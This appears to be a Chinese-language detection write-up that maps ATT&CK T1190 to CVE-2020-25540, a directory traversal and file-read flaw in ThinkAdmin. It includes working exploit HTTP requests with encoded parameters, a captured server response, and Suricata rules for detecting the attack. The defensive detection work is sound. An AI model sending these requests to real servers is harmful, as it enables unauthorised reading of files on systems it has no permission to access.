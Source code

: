 # T1190-CVE-2020-25540-目录遍历文件读取漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

ThinkAdmin6版本存在路径遍历漏洞。该漏洞主要是因为api中存在危险函数，没有任何过滤。攻击者可利用该漏洞通过请求编码参数任意读取远程服务器上的任意文件。

影响范围：ThinkAdmin版本小于 ≤ 2020.08.03.01

## 检测日志

HTTP

## 测试复现

Burp抓包，修改参数

```yml
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4e3eb8bf4d142b8bc21279a7418eea26
Upgrade-Insecure-Requests: 1
Content-Length: 27
Content-Type: application/x-www-form-urlencoded
 
rules=%5b%22%2e%5c%2f%22%5d
```

## 测试留痕

### 目录遍历

```yml
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```

### 文件读取

```s
GET /admin.html?s=admin/api.Update/get/encode/5i6s524v5s6j5y4q1a383c38 HTTP/1.1
Host: 192.168.100.194:8000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn; PHPSESSID=d1645e8a719cdc2b6b8eb98c50624f52
Connection: close

HTTP/1.1 200 OK
Host: 192.168.100.194:8000
Date: Wed, 09 Dec 2020 10:53:17 +0800
Connection: close
X-Powered-By: PHP/7.2.1
Content-Type:application/json; charset=utf-8
Set-Cookie: think_lang=zh-cn; path=/
Set-Cookie: PHPSESSID=d1645e8a719cdc2b6b8eb98c50624f52; path=/

...{"code":1,"info":".....................","data":{"content":"dGVzdHRlc3R0ZXN0"}}
```

## 检测规则/思路

### Suricata规则

#### 目录遍历检测规则

```s
alert http any any -> any any (msg:"CVE-2020-25540-rsq";flow:established,to_server;content:"POST";http_method;content:"/admin.html?s=admin/api.Update/node";http_uri;content:"rules=";http_client_body;reference:url,www.freebuf.com/vuls/256529.html;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2020-25540-目录遍历";flow:established,to_client;content:"200";http_stat_code;content:"获取文件列表成功";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```

### 文件读取检测规则

```s
alert http any any -> any any (msg:"CVE-2020-25540-rsq";flow:established,to_server;content:"GET";http_method;content:"/admin.html?s=admin/api.Update/get/encode/";http_uri;reference:url,www.freebuf.com/vuls/256529.html;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2020-25540-文件读取";flow:established,to_client;content:"200";http_stat_code;content:"data";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2020-25540目录遍历文件读取漏洞

<https://www.freebuf.com/vuls/256529.html>

